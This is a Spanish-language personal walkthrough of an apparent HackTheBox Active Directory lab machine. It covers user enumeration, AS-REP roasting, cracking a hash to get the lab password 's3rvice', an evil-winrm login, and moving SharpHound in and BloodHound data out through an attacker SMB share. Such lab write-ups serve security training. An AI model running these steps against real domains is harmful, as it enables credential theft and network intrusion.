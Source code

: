 Haremos los reconocimientos de siempre:
![[Mis apuntes/ANEXOS/Pasted image 20230126111303.png]]
Ya que es una máquina Windows, debemos enumerar con crackmapexec qué máquina es y qué windows tiene instalado, el cual se trata de un Windows Server 2016: [[Crackmapexec#Detectar dominio y hostname con crackmapexec]]
![[Mis apuntes/ANEXOS/Pasted image 20230126111311.png]]
Intentamos listar los recursos compartidos con una null session de esta máquina pero no sale nada:
![[Mis apuntes/ANEXOS/Pasted image 20230126111320.png]]
Lo que podemos hacer es intentar enumerar usuarios válidos haciendo uso de la herramienta enum4linux:
![[Mis apuntes/ANEXOS/Pasted image 20230126112406.png]]
![[Mis apuntes/ANEXOS/Pasted image 20230126112436.png]]
Ahora que tenemos todos estos usuarios, vamos a guardarlos todos en un documento para poder usarlos como ataque de fuerza bruta, esto podemos hacerlo a través de expresiones regulares en bash o copiando y pegando cada usuario:
![[Mis apuntes/ANEXOS/Pasted image 20230126113248.png]]
Y lo guardamos dentro del documento users:
![[Mis apuntes/ANEXOS/Pasted image 20230126113324.png]]
Ahora que tenemos este listado de usuarios, hay una herramienta que se llama GetNPusers de impacket que sirve para obtener Ticket Granting Ticket (TGT) de credenciales de aquellos usuarios que no requieren autenticación Kerberos; por tanto debemos pasarle el dominio y el diccionario con los usuarios, y vemos que nos encuentra un hash de uno de los usuarios:
![[Mis apuntes/ANEXOS/Pasted image 20230126114019.png]]
Ahora guardamos este hash en un documento de texto y con john intentamos deshashearla con un ataque de fuerza bruta utilizando el diccionario rockyou.txt:
![[Mis apuntes/ANEXOS/Pasted image 20230126111407.png]]
Y tras ejecutar este comando, obtenemos una contraseña, la cual es s3rvice:
![[Mis apuntes/ANEXOS/Pasted image 20230126114314.png]]
Ahora con crackmapexec podemos validar si estas credenciales son válidas, las cuales vemos que sí:[[Crackmapexec#Comprobar y validar credenciales con crackmapexec]]
![[Mis apuntes/ANEXOS/Pasted image 20230126111426.png]]
Y con estas credenciales ya podemos listar recursos compartidos y los permisos que tenemos:[[Crackmapexec#Listar recursos compartidos con crackmapexec]]
![[Mis apuntes/ANEXOS/Pasted image 20230126111434.png]]
Y ahora podemos ver si este usuario forma parte del grupo win managament users:
![[Mis apuntes/ANEXOS/Pasted image 20230126111442.png]]
Ahora con toda esta información ya podemos ganar una consola interactiva utilizando las credenciales de este usuario utilizando evil-winrm:
```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```
![[Mis apuntes/ANEXOS/Pasted image 20230126111450.png]]
Y navegando por los directorios, obtenemos la flag:
![[Mis apuntes/ANEXOS/Pasted image 20230126111458.png]]
Podemos conocer detalles sobre este usuario con el comando net user svc-alfresco:
![[Mis apuntes/ANEXOS/Pasted image 20230130110201.png]]
Ahora para escalar los privilegios podemos utilizar una herramienta llamada bloodhound que nos va a recopilar mucha información acerca del Active Directory de la víctima, por lo que en Kali Linux ya lo tenemos en este directorio:
![[Pasted image 20231123180300.png]]
Y nos lo compartimos con la máquina víctima a través de samba:
![[Pasted image 20231123180423.png]]
Y desde la máquina víctima nos lo recibimos:
```
copy \\10.10.16.6\recurso\SharpHound.exe SharpHound.exe
```
![[Pasted image 20231123180550.png]]
Y ahora ejecutamos el SharpHopund.exe y nos habrá generado un archivo zip:
![[Pasted image 20231123180800.png]]
![[Pasted image 20231123180824.png]]
Y ahora para bajarnos este comprimido, ejecutamos el siguiente comando que nos va a permitir descargar archivos desde Evil-WinRM:
```javascript
download C:\Users\svc-alfresco\Desktop\20231123091422_BloodHound.zip data.zip
```
![[Pasted image 20231123181018.png]]
![[Pasted image 20231123181031.png]]
Y ahora tenemos que arrancar el neo4j console, que será lo que haga funcionar a bloodhound, por tanto ejecutamos el comando `neo4j console`
![[Pasted image 20231123181511.png]]
Y a continuación tenemos que acceder al puerto 7687 para establecer unas credenciales y abrir bloodhound:
```
http://localhost:7474/browser/
```
![[Pasted image 20231123182143.png]]
Aquí nos autenticamos con las credenciales por defecto las cuales son neo4j y neo4j y al darle a connect nos pedirá configurar unas nuevas credenciales:
![[Pasted image 20231123182308.png]]
A continuación, abrimos la app de bloodhound y nos autenticamos con estas nuevas credenciales:
![[Pasted image 20231123182740.png]]
Y una vez dentro le cargamos toda la data que hemos obtenido anteriormente desde la máquina víctima:
![[Pasted image 20231123182913.png]]
En la parte de arriba ponemos el usuario que hemos comprometido:
![[Pasted image 20231123183448.png]]
Y marcamos como pwned este usuario:
![[Pasted image 20231123183429.png]]
Y se nos muestra todo el mapa del AD:
![[Pasted image 20231123184137.png]]
